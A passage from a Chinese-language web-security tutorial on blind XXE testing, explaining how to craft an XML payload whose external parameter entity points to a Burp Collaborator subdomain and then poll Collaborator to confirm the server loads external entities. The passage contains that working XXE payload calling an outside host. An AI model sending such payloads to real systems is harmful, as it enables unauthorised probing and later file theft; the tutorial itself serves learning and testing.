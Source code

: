 #### 3.2.2.2.**构建payload**

其实这里的payload和之前的payload基本一致。这里需要注意的是，我们复制的子域名是没有http://的需要我们自己添加上去。所以修改下面的payload的时候只需要把http://后面的内容替换即可，设置好后，点击发送。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

<!ENTITY % d SYSTEM "http://azdvir9dgkpw9k7rvah25bccz35tti.burpcollaborator.net">

%d;

]>
```

![img](assets/cjbMaZUrIeHzg8D.jpg) 

#### 3.2.2.3.**查看效果**

发送完成后，点击现在轮询，当然也可以在复制子域名后就开始轮询，这边可能需要稍等一会就能显示出来，因为设置的轮询是60秒。当看到结果后就可以判断是可以使用外部引入的。

![img](assets/iJvHYkyrBVZ713j.jpg) 
